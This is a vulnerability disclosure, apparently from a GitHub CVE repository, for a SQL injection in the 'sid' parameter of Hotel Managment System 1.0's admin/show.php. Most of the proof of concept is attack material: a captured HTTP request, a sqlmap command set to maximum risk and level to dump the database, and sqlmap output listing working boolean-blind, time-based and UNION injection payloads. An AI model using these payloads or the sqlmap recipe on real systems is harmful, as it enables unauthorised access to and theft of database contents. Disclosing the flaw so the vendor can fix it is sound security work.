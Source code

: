 # Hotel Managment System - SQL Injection-2
+ *Exploit Title:* Hotel Managment System - SQL Injection-2
+ *Date:* 2024-02-01
+ *Exploit Author:* Tuba Kavgacı
+ *Vendor Homepage:* https://code-projects.org/hotel-management-system-in-php-with-source-code/
+ *Software Link:* https://download.code-projects.org/details/cd8fc4cb-c6b6-48f7-9cc3-27044a0a26a3
+ *Version:* 1.0
+ *Tested on:* Kali Linux + PHP 8.2.12, Apache 2.4.58
+ *CVE:* Reported, Waiting for CVE number

## Description:
Hotel Managment System 1.0, allows SQL Injection via the 'sid' parameter in Hotel/admin/show.php?sid=2. Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: http://localhost/Hotel/admin/home.php
+ Click show button
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
GET /Hotel/admin/show.php?sid=2 HTTP/1.1
Host: localhost
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
```
+ Use sqlmap to exploit. In sqlmap, use 'sid' parameter to dump the database.
```
python sqlmap.py -r r.txt -p sid --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: sid (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: sid=2' AND 6172=6172-- rihG

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: sid=2' AND (SELECT 4349 FROM (SELECT(SLEEP(5)))VTTj)-- qEzP

    Type: UNION query
    Title: Generic UNION query (NULL) - 16 columns
    Payload: sid=2' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7176767a71,0x7175487a6d65646c43574b416f76734e716679706277507867684d697a43576b677264734b57705a,0x716b6a6a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
[18:55:35] [INFO] the back-end DBMS is MySQL
web application technology: PHP 8.2.12, Apache 2.4.58
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[18:55:35] [INFO] fetching current database
current database: 'hotel'
```
+ current database : `hotel`
  
![Ekran görüntüsü 2024-02-02 025707](https://github.com/tubakvgc/CVEs/assets/74067343/9a29d0bb-a78d-422b-82f8-3adda424ea0b)




  
